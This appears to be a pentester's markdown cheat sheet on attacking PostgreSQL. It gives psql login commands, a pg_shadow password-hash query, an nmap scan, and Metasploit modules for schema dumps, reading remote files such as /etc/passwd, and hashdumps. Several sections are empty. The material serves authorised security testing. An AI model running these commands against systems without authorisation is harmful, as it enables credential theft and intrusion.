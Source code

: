 # PostgreSQL

## 01 - Manual

TODO: Fill this information by referring to the references down below

### 1.1 - Usage

#### 1.1.1 - Authenticate

- **Local**

`$ psql -U <username>`

`$ psql -U <username> -W`

- **Remote**

`$ psql -h <IP> -U <username> -W`

`$ psql postgresql://<username>:<password>@<IP>:<PORT>/<database_name>`

### 1.2 - PostgreSQL Version

### 1.3 - Operating System

### 1.4 - Database

#### 1.4.1 - Retrieve Databases

#### 1.4.2 - Retrieve Tables

#### 1.4.3 - Hashdump

`postgres=# SELECT username, passwd FROM pg_shadow;`

## 02 - Nmap

`$ nmap -p 5432 <IP>`

## 03 - Metasploit

### 3.1 - Banner Grab

```
msf > use auxiliary/scanner/postgres/postgres_version

msf auxiliary(scanner/postgres/postgres_version) > options

Module options (auxiliary/scanner/postgres/postgres_version):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output

msf auxiliary(scanner/postgres/postgres_version) > set database <database_name>

msf auxiliary(scanner/postgres/postgres_version) > run postgres://<username>:<password>@<IP> threads=8
```

### 3.2 - SQL Queries

#### 3.2.1 - Schema

```
msf > use auxiliary/scanner/postgres/postgres_schemadump

msf auxiliary(scanner/postgres/postgres_schemadump) > options

Module options (auxiliary/scanner/postgres/postgres_schemadump):

   Name               Current Setting      Required  Description
   ----               ---------------      --------  -----------
   DATABASE           postgres             yes       The database to authenticate against
   DISPLAY_RESULTS    true                 yes       Display the Results to the Screen
   IGNORED_DATABASES  template1,template0  yes       Comma separated list of databases to ignore during the schema dump
   PASSWORD           postgres             no        The password for the specified username. Leave blank for a random password.
   RHOSTS                                  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              5432                 yes       The target port
   THREADS            1                    yes       The number of concurrent threads (max one per host)
   USERNAME           postgres             yes       The username to authenticate as

msf auxiliary(scanner/postgres/postgres_schemadump) > set database <database>

msf auxiliary(scanner/postgres/postgres_schemadump) > set ignored_databases <database1>,<database2>,<etc>

msf auxiliary(scanner/postgres/postgres_schemadump) > run postgres://<username>:<password>@<IP> threads=8
```

#### 3.2.2 - Read File

```
msf > use auxiliary/admin/postgres/postgres_readfile

msf auxiliary(admin/postgres/postgres_readfile) > options

Module options (auxiliary/admin/postgres/postgres_readfile):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RFILE     /etc/passwd      yes       The remote file
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output

msf auxiliary(admin/postgres/postgres_readfile) > set database <database>

msf auxiliary(admin/postgres/postgres_readfile) > set rfile </path/to/file>

msf auxiliary(admin/postgres/postgres_readfile) > run postgres://<username>:<password>@<IP> threads=8
```

#### 3.2.3 - Hashdump

```
msf > use auxiliary/scanner/postgres/postgres_hashdump

msf auxiliary(scanner/postgres/postgres_hashdump) > options

Module options (auxiliary/scanner/postgres/postgres_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  postgres         yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5432             yes       The target port
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME  postgres         yes       The username to authenticate as

msf auxiliary(scanner/postgres/postgres_hashdump) > set database <database>

msf auxiliary(scanner/postgres/postgres_hashdump) > run postgres://<username>:<password>@<IP> threads=8
```

## References

- [A Penetration Testers guide to PostgreSQL](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)

- [Ultimate guide PostgreSQL Pentesting](https://medium.com/@lordhorcrux_/ultimate-guide-postgresql-pentesting-989055d5551e)

- [Pentration Testing on PostgreSQL 5432](https://www.hackingarticles.in/penetration-testing-on-postgresql-5432/)

- [Pentest Wiki Database Assessment PostgreSQL](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)

- [Metasploit Unleashed: Admin Postgre Auxiliary Module](https://www.offsec.com/metasploit-unleashed/admin-postgres-auxiliary-modules/)
